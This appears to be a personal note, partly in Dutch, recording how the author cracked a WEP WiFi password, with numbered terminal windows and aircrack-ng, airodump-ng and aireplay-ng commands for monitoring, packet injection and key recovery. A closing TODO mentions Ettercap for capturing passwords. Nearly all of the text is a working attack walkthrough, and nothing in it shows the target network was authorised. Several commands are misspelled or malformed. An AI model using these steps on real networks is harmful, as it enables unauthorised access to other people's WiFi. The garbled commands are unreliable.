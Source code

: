 # 27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

# Steps/Commands

wlan0 = own interface -> wlan1monmon.
mon0 = find it by "airmon-ng".

**Wireless Reconnaiccance:**
Window 1
* iwconfig
* airmin-ng start wlan0
* airodump-ng mon0
* Find information in table
  * ESSID
  * BSSID
  * Channel
  * Client's  MAC

**WEP:**
Window 1
* airmon-ng
  * Find mon0
* airodump-ng mon0
* Find information in table
	
New window 2
* airodump-ng --bssid "client's MAC" -c "Channel" -w wep_log mon0

New window 3 
* ifconfig 
* Find own MAC

New window 4
* airdoplay-ng -l 0 -a "client's MAC" -h "own MAC" -e "name connaction" mon0 --ignore-negative-one
* airoplay-ng -3 -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one

New window 5
* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one
* use this packet? ENTER


Window 2 
* Everything is fine if data is above 5000 
* Close window 2, 3, 4, 5

First window	
* clear
* aircrack-ng -a l -b "client's MAC" -n 64 wep_log-01.cap
	
FIND PASSWORD!!!!

Next time: Script schrijven!
TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?)
